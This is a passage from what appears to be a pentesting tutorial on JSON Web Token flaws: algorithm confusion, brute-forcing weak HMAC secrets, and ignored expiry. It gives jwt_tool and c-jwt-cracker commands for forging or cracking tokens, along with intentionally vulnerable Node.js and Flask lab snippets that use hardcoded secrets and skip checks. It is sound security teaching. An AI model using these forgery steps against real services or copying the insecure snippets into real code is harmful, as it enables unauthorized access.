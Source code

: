 ####  Manual Exploitation:
1. Extract public key (PEM format).
2. Modify token:
   ```json
   { "alg": "HS256", "typ": "JWT" }
   ```
3. Sign token with **public key as HMAC secret**:
   ```bash
   jwt_tool original.jwt -X alg=HS256 -S public.pem
   ```
4. Use token and gain unauthorized access.

####  Node.js Lab:
```javascript
jwt.verify(token, pubKey); // doesn't check if alg is actually RS256
```

---

### **3. Weak HMAC Secret (Brute-Forceable)**
####  Detection:
- `alg` is HS256/HS512.
- Look for common JWT secrets (e.g., `JWT_SECRET`, `123456`, `admin`) in source code or `.env` files.

####  Manual Exploitation:
- Use tool:
  ```bash
  c-jwt-cracker token.jwt /usr/share/wordlists/rockyou.txt
  ```

####  Node.js Lab:
```javascript
const token = jwt.sign({ user: 'admin' }, 'secret123');
```

---

### **4. Expired Token Still Works (Improper `exp` Enforcement)**
####  Detection:
- Decode JWT and check `exp`.
- If `exp` is in the past but token still works, it’s a bug.

####  Exploitation:
- Reuse token indefinitely.
- Forge tokens with past `iat`/`exp`.

####  Lab:
```python
@app.route('/dashboard')
def dashboard():
    token = request.headers.get('Authorization').split()[1]
    data = jwt.decode(token, "secret123", algorithms=["HS256"])  # no exp check
    return f"Welcome {data['user']}"
```

---
